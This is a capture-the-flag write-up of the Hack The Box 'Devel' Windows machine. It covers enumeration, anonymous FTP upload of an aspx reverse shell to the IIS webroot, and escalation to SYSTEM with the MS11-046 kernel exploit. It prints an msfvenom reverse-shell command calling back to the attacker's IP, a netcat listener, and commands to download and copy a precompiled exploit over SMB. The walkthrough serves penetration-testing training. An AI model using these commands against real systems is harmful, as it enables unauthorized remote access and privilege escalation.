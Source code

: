 ```yaml
---
title: "Hack The Box - Devel"
date: 2020-01-09
tags: [oscp, htb, windows]
collection: oscp-prep
published: true
layout: single
classes: wide
headline: "FTP abuse to kernel exploit"
picture: /assets/htb-devel/machine_info.png
---
```


![](/assets/htb-devel/machine_info.png)

## Enumeration

Our Nmap scans show only 2 ports open, running FTP and HTTP. Both are backed by IIS 7.5, telling us that the system is running Windows 7 or Server 2008 R2.

```
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.059s latency).
Scanned at 2020-01-09 13:18:34 EST for 202s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```

Gobuster and Nikto show nothing beyond an `/aspnet_client` subsirectory on the HTTP side.

---

## Initial Shell

### Probing FTP

Since web enumeration found nothing of interest, we have to assume the way forward is going to involve FTP in some way. Let's probe FTP and see what we can do.

Initial enumeration of FTP should always include an attempt to login as an `anonymous` user. In this case, we can in fact login as `anonymous`.

![](/assets/htb-devel/ftp_anon_login.png)

Now that we're in the FTP server, where are we? A simple `ls` shows that we're in the root of the web site, as we can see the default IIS page, and the `/aspnet_client` subdirectory.

![](/assets/htb-devel/ftp_webroot.png)

Now we need to test if we can place a test file in the directory as `anonymous`. Since this is the webroot, if we're able to place a file here and pull it up via the web browser, that means we have a way to possibly get RCE.

![](/assets/htb-devel/ftp_put_test.png)

![](/assets/htb-devel/web_test_file.png)

So we can place a file, and retreive it via the web. Since this is IIS, with the `/aspnet_client` present, it means we can probably place a malicious `aspx` page, and get a shell back.

### Create payload and upload via FTP

We can use `msfvenom` to create a payload, and output it to the `aspx` format. The command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=7500 -f aspx -o shell.aspx`

![](/assets/htb-devel/msfvenom_create.png)

Now we just need to upload it to the FTP server.

![](/assets/htb-devel/ftp_put_shell.png)

### Open listener and trigger exploit

Before we can trigger the exploit, we need to open a listener to catch the shell first. We can do this with `nc -lvnp 7500`.

Once that's setup, all we need to do it navigate a web browser to `http://10.10.10.5/shell.aspx`. We should now have a shell waiting for us in the listener.

![](/assets/htb-devel/initial_shell.png)

---

## Privlege Escalation

### Getting our bearings

Now that we're on the system, we can look around and see what we're dealing with.

The `systeminfo` command shows that we were correct with our guess of Windows 7 as the OS. Also, note that there are no installed Hotfixes on the machine either.

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          13/1/2020, 4:16:05 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 725 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.528 MB
Virtual Memory: In Use:    519 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

A `whoami` command shows that we're currently running as an IIS web service.

![](/assets/htb-devel/whoami.png)

A `net user` command shows that the accounts on the system are `Administrator` and `babis`. The `user.txt` flag is probably on the desktop for `babis`, with the `root.txt` flag on the desktop for `Administrator`.

![](/assets/htb-devel/net_user.png)

We can also see that we can't navigate to the `babis` user directory.

![](/assets/htb-devel/babis_denied.png)

### MS11-046

Since there are no hotfixes installed, we have our choice of kernal exploits for local exploit. MOst exploits found online will trigger, but they are not remote shell friendly. This means that even if I run them, they will open a new instance of `cmd.exe` on the PC, not just escalate my current privleges in the current shell.

[This repository for a MS11-046 exploit](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046) tells us in the source code that it is in fact *remote-shell friendly*.

```c
// spawn shell (with elevated privileges)
    printf("         [*] Spawning shell\n");
    // spawn SYSTEM shell within the current shell (remote shell friendly)
    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");
```

There is a pre-compiled EXE available, which makes this as simple as copying to it the target with an SMB share, and running it.

```shell
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe

# Start an SMB server via Impacket's smbserver.py in a new terminal
smbserver.py kali .

# From the remote shell
copy \\10.10.14.16\kali\MS11-046.exe
```

Now all that's left is to run the exploit locally on the target.

![](/assets/htb-devel/privesc_whoami.png)

### Loot!

Once we're `SYSTEM`, grabbing flags is trivial.

![](/assets/htb-devel/user_proof.png)

![](/assets/htb-devel/root_proof.png)





